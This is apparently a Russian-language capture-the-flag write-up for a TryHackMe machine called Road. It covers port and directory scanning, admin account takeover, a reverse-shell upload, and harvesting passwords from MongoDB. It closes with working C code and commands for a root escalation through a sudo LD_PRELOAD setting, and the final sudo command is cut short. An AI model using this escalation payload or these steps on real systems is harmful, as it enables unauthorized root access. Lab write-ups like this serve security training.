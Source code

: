 # Road

:white_check_mark:  [**Sockets**](#sockets)

:white_check_mark: [**Mongodb browsing**](#mongodb)

:white_check_mark: [**LD_PRELOAD(privesc)**](#ld_preload)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV road.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/1.png)

Поиск директорий:
```
gobuster dir -u http://road.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://road.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/07 22:16:09 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 305] [--> http://road.thm/assets/]
/v2                   (Status: 301) [Size: 301] [--> http://road.thm/v2/]
```
## Getting shell

Перейдем в директорию **"v2"**. Регистрируем нового пользователя

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/3.png)

Меняем пароль для пользователя admin. И заходит в его аккаунт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/4.png)

Загружаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/5.png)

Видим, что обратная оболочка расположена в **/v2/profileimages/**

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/6.png)

Запускаем слушатель и получаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/7.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/8.png)

## Getting users credentials

<a name="sockets"></a>

Перечислим все запущенные сетевые службы:
```
ss -at
```
**ss** - утилита для исследования сокетов  
**a** - отображение всех сокетов  
**t** - отображение TCP сокетов

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/9.png)

<a name="mongodb"></a>

На порту 27017 находится база данных mongo. Подключимся к ней.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/10.png)

Просмотрим базу на предмет паролей пользователей.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/11.png)

## Privilege escalation

<a name="ld_preload"></a>

Нашли пароль от пользователя webdevelopers, подключимся по ssh. Посмотри права sudo у этого пользователя.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/12.png)

Видим строку:
```
env_keep+=LD_PRELOAD
```

Воспользуемся этой [статьей](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

Создаем файл shell.c

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/13.png)

Записываем в него код:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() 
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/14.png)

Компилируем и запускаем файл.
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles

sudo LD_PRELOAD=/tmp/shell.so /usr/bin/
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Road/15.png)

Получаем root.
